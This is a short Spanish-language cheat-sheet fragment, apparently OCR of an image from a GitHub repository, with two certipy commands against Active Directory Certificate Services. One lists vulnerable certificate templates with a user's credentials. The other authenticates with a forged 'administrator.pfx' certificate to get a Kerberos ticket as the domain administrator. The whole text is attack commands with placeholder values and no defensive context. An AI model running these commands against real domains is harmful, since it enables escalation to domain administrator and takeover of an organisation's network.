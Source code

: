 ### Conocer el nivel y saber que template es vulnerable:
$ certipy find -u {USER}@{DOMAIN} -p '{PASSWORD}' -dc-ip {IP} -vulnerable -stdout
### Autenticarse usando el TGT creado (administrator.pfx):
$ certipy auth -pfx 'administrator.pfx' -username 'USERNAME' -domain 'DOMAIN' -dc-ip {IP}